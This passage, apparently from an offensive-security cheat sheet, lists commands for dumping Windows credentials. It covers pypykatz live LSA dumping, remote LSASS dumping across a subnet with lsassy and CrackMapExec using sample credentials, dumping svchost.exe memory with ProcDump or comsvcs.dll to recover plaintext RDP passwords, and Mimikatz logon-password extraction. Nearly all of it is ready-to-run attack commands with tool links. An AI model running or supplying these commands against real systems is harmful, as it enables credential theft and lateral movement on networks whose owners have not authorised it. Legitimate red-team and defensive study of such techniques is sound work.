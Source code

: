 ```
$ .\pypykatz.exe live lsa --method handledup
```



### Remotely

* [https://github.com/G0ldenGunSec/SharpSecDump](https://github.com/G0ldenGunSec/SharpSecDump)


#### lsassy

* [https://github.com/Hackndo/lsassy](https://github.com/Hackndo/lsassy)
* [https://github.com/byt3bl33d3r/CrackMapExec/blob/master/cme/modules/lsassy.py](https://github.com/byt3bl33d3r/CrackMapExec/blob/master/cme/modules/lsassy.py)
* [https://en.hackndo.com/remote-lsass-dump-passwords/](https://en.hackndo.com/remote-lsass-dump-passwords/)

```
$ lsassy 10.10.13.0/24 -d megacorp.local -u snovvcrash -p 'Passw0rd!'
$ cme smb 10.10.13.0/24 -u snovvcrash -p 'Passw0rd!' -M lsassy
```




## svchost.exe

* [https://www.n00py.io/2021/05/dumping-plaintext-rdp-credentials-from-svchost-exe/](https://www.n00py.io/2021/05/dumping-plaintext-rdp-credentials-from-svchost-exe/)

Locate the svchost.exe process that's holding RDP creds:

```
Cmd > tasklist /M:rdpcorets.dll
```

Use ProcDump or comsvc.dll to dump process memory:

```
Cmd > .\procdump64.exe -accepteula -64 -ma <PROCESS_PID> svchost.dmp
Cmd > rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump <PROCESS_PID> C:\Windows\Temp\svchost.dmp full
```

Grep for plaintext passwords:

```
$ strings -el svchost.dmp | grep <USERNAME> -C1
```



### Mimikatz

```
Cmd > .\mimikatz.exe "privilege::debug" "log out.txt" "ts::logonpasswords" "exit"
```


